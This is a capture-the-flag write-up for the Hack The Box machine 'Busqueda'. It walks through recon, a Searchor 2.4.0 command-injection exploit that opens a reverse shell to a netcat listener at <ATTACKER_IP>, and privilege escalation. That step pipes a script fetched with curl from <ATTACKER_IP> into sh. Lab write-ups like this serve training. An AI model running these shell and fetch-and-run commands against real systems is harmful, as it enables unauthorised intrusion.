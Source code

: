 # Busqueda Writeup
![Busqueda](https://github.com/7Pawns/HackTheBox-Writeups/assets/124451776/7c14dfc3-7a18-4bc7-bcfb-f61ee2efceaf)
## Recon
A simple search engine. Nothing too interesting in the site itself.

From looking at the source code I found out the website was using a github project called searchor.

I found the following page saying there is an RCE available for version 2.4.0:   
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

We will come back to it after a quick NMAP scan.

## NMAP
```zsh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Nothing interesting here either, Looks like the Apache and Werkzeug versions are good.

## Exploitation
Using the exploit I found earlier all we need to do is clone the repository with:
```console
git clone https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```
Then we use netcat to listen on port 9001 which is the default for the exploit:
```console
nc -lnvp 9001
```
Then we run the exploit using:
```console
./exploit.sh searcher.com <ATTACKER_IP>
```
We got a shell and we can find the ```user.txt``` file under /home/svc.
## Privilege Escalation
First thing we do is run linpeas on the machine so we open an http server using:
```console
python3 -m http.server 80
```
Then on the victim machine we use 
```console
curl -L http://<ATTACKER_IP>/path/to/linpeas.sh | sh
```
We now let linpeas run, and when it finishes we find we have access to /usr/bin/bash so to get root all we have to us run:
```console
/usr/bin/bash -p
```
And we got root.

Pretty easy machine, nothing to difficult throughout the solve.
